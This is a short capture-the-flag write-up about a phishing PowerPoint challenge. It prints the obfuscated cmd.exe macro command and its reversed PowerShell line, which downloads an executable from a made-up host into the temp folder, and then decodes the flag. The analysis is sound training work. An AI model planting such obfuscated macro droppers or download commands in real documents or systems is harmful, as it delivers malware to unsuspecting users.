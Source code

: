 Open the pptx and after some digging you find the onhover macro on the background square

```
cmd.exe /V:ON/C"set yM="o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q' + pmet:vne$ = o$" c- llehsrewop&&for /L %X in (122;-1;0)do set kCX=!kCX!!yM:~%X,1!&&if %X leq 0 call %kCX:*kCX!=%"
```

extract the powershell part and reverse
```powershell
powershell -c "$o = $env:temp + 'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe'; iwr http:/destroyearth.alien/x.exe -outfile $o
```
base64 decode the filename gives a partial flag

running it fully with the for loop should give the full flag
you must first replace the `powershell` with `echo`
```
cmd.exe /V:ON/C"set yM="o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q' + pmet:vne$ = o$" c- ohce&&for /L %X in (122;-1;0)do set kCX=!kCX!!yM:~%X,1!&&if %X leq 0 call %kCX:*kCX!=%"
```
```powershell
$o = $env:temp + 'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe'; iwr http:/destroyearth.alien/x.exe -outfile $o
```

`Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99` and then using b64 with the alphabet `A-Za-z0-9-_` you get the flag

CHTB{pH1sHiNg_w0_m4cr0s???}
